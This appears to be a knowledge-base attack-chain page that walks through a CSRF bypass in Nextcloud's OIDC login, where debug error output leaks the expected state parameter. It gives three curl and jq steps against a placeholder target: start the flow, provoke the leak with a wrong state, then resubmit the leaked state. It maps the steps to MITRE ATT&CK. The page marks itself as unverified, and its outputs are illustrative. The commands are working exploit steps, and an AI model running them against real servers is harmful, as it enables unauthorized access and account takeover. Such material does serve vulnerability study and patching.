

# CSRF Bypass in Nextcloud OIDC Login via State Parameter Leak

Multi-stage attack chain demonstrating a complete attack workflow exploiting debug leftovers in Nextcloud's LoginController.php that leak the CSRF state parameter, rendering protection ineffective and allowing unauthorized OIDC logins. A similar vulnerability affects the ID4ME controller.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or [[commands/curl-initiate-oidc]]
- JSON parser (e.g., jq)

### Target Environment

- Nextcloud instance with OIDC enabled (PHP-based web application)
- Access to the login endpoint (e.g., https://target.com/login?openIdConnect=1)
- No authentication required for initial login initiation

### Initial Access Requirements

- Network access to the Nextcloud web interface
- Victim's browser or ability to craft requests (for CSRF simulation)
- No prior credentials needed, as this targets the login flow

## Detailed Attack Procedures

### Step 1: Initiate OIDC Login Flow
procedure: [[procedures/Initiate-OIDC-Login-Flow]]

**Objective**: Start the OIDC authentication process to generate and store the CSRF state parameter in the session.

**Instructions**: Use [[commands/curl-initiate-oidc]] to trigger the login flow and capture the initial redirect or response containing the state setup.

```bash
curl -c cookies.txt -L "https://target.com/login?openIdConnect=1"
```

**Expected Output**: Redirect to the OIDC provider or a response indicating session state initialization.

**Success Indicators**:
- Cookies file contains session data
- No errors in response; flow initiates successfully

### Step 2: Trigger Callback with Mismatched State
procedure: [[procedures/Trigger-State-Mismatch-Error]]

**Objective**: Submit an invalid state to the callback endpoint to provoke an error response that leaks the expected state value.

**Instructions**: Craft a callback request with a wrong state using [[commands/curl-mismatched-state]] and load the session cookies.

```bash
curl -b cookies.txt -X POST "https://target.com/index.php/login?openIdConnect=callback" -d "state=invalid_state&code=some_code" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: JSON error response like {"error":"Invalid state","expected_state":"actual_leaked_state"}.

**Success Indicators**:
- JSON response contains the expected state parameter
- HTTP status 400 or similar error

### Step 3: Extract and Reuse the Leaked State
procedure: [[procedures/Extract-and-Reuse-Leaked-State]]

**Objective**: Parse the leaked state from the error and resubmit the callback with the correct state to bypass CSRF.

**Instructions**: First, extract the state using jq on the previous response, then resubmit with [[commands/curl-reuse-state]].

```bash
# Extract state (assuming response saved to error.json)
cat error.json | jq -r '.expected_state' > leaked_state.txt

# Reuse in callback
STATE=$(cat leaked_state.txt)
curl -b cookies.txt -X POST "https://target.com/index.php/login?openIdConnect=callback" -d "state=$STATE&code=some_code" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: Successful authentication redirect or login completion.

**Success Indicators**:
- No CSRF error; authentication proceeds
- Session established or redirect to dashboard

## Attack Chain Summary

### Key Achievements

1. Leaked the CSRF state parameter via debug error handling in LoginController.php (lines 336-344)
2. Bypassed CSRF protection to forge OIDC login requests
3. Enabled potential account takeover or unauthorized access; similar issue in ID4ME controller (lines 175-181)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Steal Web Session Cookie]] Steal Web Session Cookie

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
